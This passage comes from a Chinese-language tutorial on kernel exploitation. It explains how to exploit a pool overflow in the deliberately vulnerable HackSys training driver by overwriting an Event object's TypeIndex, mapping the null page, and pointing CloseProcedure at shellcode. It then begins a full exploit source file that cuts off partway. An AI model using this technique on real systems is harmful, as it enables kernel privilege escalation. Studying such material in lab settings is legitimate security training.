 在该结构中从偏移 0x030 开始就保存了各种回调例程，其中的 CloseProcedure 指定了当 Event 对象被释放的时候要调用的例程。  

> 到这里对目前的内容做个总结：  
> 
> *   我们已经可以保证驱动申请的 0x200 大的非分页内存后面跟着的是事件对象
>     
> *   事件对象的对象头中的偏移 0x0C 保存的 TypeIndex 是对象类型的索引，根据该索引可以从 ObTypeIndexTable 中找到对象类型
>     
> *   事件对象类型中的偏移 0x60 保存了释放对象的例程
>     

另外还需要补充的是 ObTypeIndexTable 第 0 项保存的是 0

![](https://bbs.pediy.com/upload/attach/202201/835440_QHEQH2BKY65ADDT.jpg)

基于以上这个漏洞的利用如下：

*   我们可以确定申请的 0x200 大小的内存页后面是事件对象，所以我们就可以淹没这个事件对象的 TypeIndex，将其设为 0
    
*   这样这个事件对象就会从 0 地址处找对象类型，而 0 地址正常情况无法访问，那么我们可以在 0 地址申请一块内存放置一块我们自己构造的事件对象
    
*   这个构造的事件对象偏移 0x60 的 CloseProcedure 此时就可以由我们指定，我们可以将其指定为 ShellCode 的地址
    
*   这样，当程序调用 CloseHandle 关闭句柄的时候，就会调用这个关闭例程，也就会执行 ShellCode  
    

但是在 0 地址其实并不需要构造一个完整的事件对象类型，因为我们只是要用到 CloseProduce 例程，所以申请到 0 地址以后，直接在 0x60 处写入 ShellCode 地址就好了。剩下的一个问题就是构造一个事件对象用来覆盖掉申请的 0x200 大小的非分页内存池后面的事件对象，这个事件对象的 TypeIndex 要指定为 0，这样才会去 0 地址解析事件对象类型。

根据上面 WinDbg 的输出应该是不难构造的，完整的 exp 如下：  

```
// exploit.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include  #include  #include  #include "ntapi.h"
#pragma comment(linker, "/defaultlib:ntdll.lib")
 
#define LINK_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define PAGE_SIZE 0x1000
#define KERNEL_NAME_LENGTH 0X0D
 
#define INPUT_BUFFER_LENGTH 0x1F8     // 淹没申请的内存池空间
#define EVENT_SIZE 0x40            // 要淹没的事件对象大小
#define EVENT_UNUSED_NUMBER 10000     // 消耗空闲内存块要创建的事件对象数量
#define EVENT_NUMBER 5000         // 事件对象数量，用来生成连续的内存
 
// 定义这些结构体用来填充要覆盖的EVENT对象
#pragma pack(1)
typedef struct _POOL_HEADER
{
    DWORD uLong1;
    DWORD PoolTag;
}POOL_HEADER;
 
typedef struct _OBJECT_HEADER_QUOTA_INFO
{
    DWORD PagedPoolCharge;
    DWORD NonPagedPoolCharge;
    DWORD SecurityDescriptorChage;
    DWORD SecurityDescriptorQuotaBlock;
}OBJECT_HEADER_QUOTA_INFO;
 
typedef struct _KEVENT_BODY
{
    DWORD Member[4];
}KEVENT_BODY;
 
typedef struct _OBJECT_HEADER
{
```